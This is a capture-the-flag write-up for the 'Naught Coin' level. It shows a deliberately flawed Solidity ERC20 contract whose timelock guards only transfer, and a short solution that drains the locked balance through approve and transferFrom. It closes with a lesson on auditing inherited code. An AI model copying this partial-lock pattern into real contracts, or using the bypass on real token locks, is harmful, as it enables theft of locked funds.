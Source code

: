 # Naught Coin
_difficulty 5/10_

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.  
Things that might help  
- The ERC20 Spec
- The OpenZeppelin codebase

## Sources
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/token/ERC20/StandardToken.sol';

 contract NaughtCoin is StandardToken {
  
  using SafeMath for uint256;
  string public constant name = 'NaughtCoin';
  string public constant symbol = '0x0';
  uint public constant decimals = 18;
  uint public timeLock = now + 10 years;
  uint public INITIAL_SUPPLY = (10 ** decimals).mul(1000000);
  address public player;

  function NaughtCoin(address _player) public {
    player = _player;
    totalSupply_ = INITIAL_SUPPLY;
    balances[player] = INITIAL_SUPPLY;
    Transfer(0x0, player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) lockTokens public returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

## Level author
Kyle Riley  
kyle@iosiro.com  
https://github.com/syncikin  

## Naught Coin solution

1. Check current player balance  
`web3.fromWei(await contract.balanceOf(player))`  
"1000000"  

2. The contract puts locks only on the `transfer` method, but ignores the `approve` and `transferFrom` methods. Let's approve the player to transfer the funds.
`await contract.approve(player, web3.toWei(1000000))`  

3. Now we can use `transferFrom` to transfer funds to some address.
`await contract.transferFrom(player, 0x1, web3.toWei(1000000))`

4. Check player's current balance
`web3.fromWei(await contract.balanceOf(player))`  
"0"  

5. Submit instance 🎉  

## Lesson  

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.  
